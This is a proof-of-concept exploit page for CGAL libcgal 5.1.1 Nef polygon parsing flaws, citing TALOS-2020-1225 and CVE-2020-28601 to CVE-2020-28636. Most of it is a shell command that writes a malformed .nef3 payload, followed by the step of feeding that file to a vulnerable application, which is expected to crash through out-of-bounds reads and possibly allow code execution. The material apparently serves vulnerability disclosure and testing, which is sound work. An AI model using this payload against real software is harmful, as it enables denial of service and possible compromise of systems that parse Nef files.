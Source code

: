 # CGAL libcgal Nef Polygon Parsing Vulnerabilities (TALOS-2020-1225)

## POC URL
https://talosintelligence.com/vulnerability_reports/TALOS-2020-1225

## Compilation Environment
- CGAL libcgal version 5.1.1
- Any system that processes Nef polygon files (.nef3) using vulnerable CGAL versions

## Run Command
1. Save the proof-of-concept exploit file:
```
echo 'Selective Nef Complex\n8\n42\n18\n2\n84\n2\n30\n0 { 0 2, 0 5, 0 1, -2 | 0 0 5 1 } 1\n1 { 3 5, 6 11, 2 3, -2 | 5 0 5 1 } 1\n2 { 6 8, 12 17, 4 5, -2 | 5 5 5 1 } 1\n3 { 9 11, 18 23, 6 7, -2 | 0 5 0 1 } 1\n4 { 12 14, 24 29, 8 9, -2 | 5 0 0 1 } 1\n5 { 15 17, 30 35, 10 11, -2 | 5 5 0 1 } 1\n6 { 18 20, 36 41, 12 13, -2 | 0 5 5 1 } 1\n7 { 21 23, 42 47, 14 15, -2 | 0 0 3 1 } 0\n0 { 3, 0, 0 0 | 1 0 0 1 } 1\n1 { 18, 0, 0 5 | 0 1 0 1 } 1\n2 { 21, 0, 0 4 | 0 0 -1 1 } 1\n3 { 0, 1, 0 6 | -1 0 0 1 } 1\n4 { 6, 1, 0 7 | 0 1 0 1 } 1\n5 { 13, 1, 0 10 | 0 0 -1 1 } 1\n40 { 28, 13, 0 82 | 1 0 0 1 } 0\n41 { 30, 13, 0 79 | 0 0 -1 1 } 0' > exploit.nef3
```

2. Process the malicious file with a vulnerable CGAL application:
```
your_vulnerable_app exploit.nef3
```

## Expected Output
The vulnerable application should crash due to out-of-bounds read or type confusion vulnerabilities when processing the malformed Nef polygon file. This could potentially lead to arbitrary code execution depending on the application's memory layout and security mitigations.

## Vulnerabilities
This proof-of-concept demonstrates multiple out-of-bounds read vulnerabilities (CVE-2020-28601 through CVE-2020-28636) in CGAL's Nef polygon parsing functionality. The malformed file triggers improper validation of array indexes when processing polygon data structures.